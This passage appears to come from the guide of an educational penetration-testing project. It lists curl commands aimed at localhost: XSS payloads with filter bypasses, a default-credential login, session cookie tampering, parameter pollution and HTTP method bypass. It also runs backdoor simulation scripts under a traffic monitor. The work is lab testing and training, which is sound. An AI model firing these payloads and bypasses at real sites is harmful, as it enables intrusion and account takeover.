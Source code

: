 ### Manual Cross-Site Scripting (XSS)

```bash
# Reflected XSS (validate automated findings)
curl "http://localhost:5000/search?q=<script>alert('Reflected XSS')</script>"
curl "http://localhost:5000/user?name=<img src=x onerror=alert('XSS')>"

# Stored XSS (extend automated testing)
curl -X POST "http://localhost:5000/comment" \
  -d "comment=<script>alert('Stored XSS')</script>" \
  -H "Content-Type: application/x-www-form-urlencoded"

# DOM-based XSS (often missed by automated tools)
curl "http://localhost:5000/profile#<img src=x onerror=alert('DOM XSS')>"

# Filter bypass techniques (advanced manual testing)
curl "http://localhost:5000/search?q=<svg onload=alert('Bypass')>"
curl "http://localhost:5000/search?q=<img src=x onerror=alert('Filter_Bypass')>"
```

### Authentication and Session Testing

```bash
# Automated dictionary attack validation
# (automated tool tests 50 common username/password combinations)
python src/analyzer/penetration_analyzer.py localhost:5000 | grep -i "weak authentication"

# Manual authentication bypass techniques  
curl -X POST "http://localhost:8080/login" \
  -d "username=admin&password=admin" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Session manipulation (manual technique)
curl -X GET "http://localhost:5000/admin" \
  -H "Cookie: session=modified_session_value"

# Parameter pollution (advanced manual technique)
curl -X POST "http://localhost:5000/login" \
  -d "username=user&username=admin&password=test" \
  -H "Content-Type: application/x-www-form-urlencoded"

# HTTP method bypass (manual technique)
curl -X PUT "http://localhost:5000/admin/users"
curl -X DELETE "http://localhost:5000/admin/users/1"
```

## 🔍 Post-Exploitation Analysis

### Persistence Simulation

```bash
# Backdoor communication patterns
python samples/backdoor-apps/backdoor_app.py &
python src/analyzer/network_cli.py --monitor-connections --duration 120 --educational

# Persistence mechanism analysis
python samples/network-scenarios/backdoor_simulation.py 90 &
python src/analyzer/network_cli.py --capture-traffic --duration 100 --educational
```
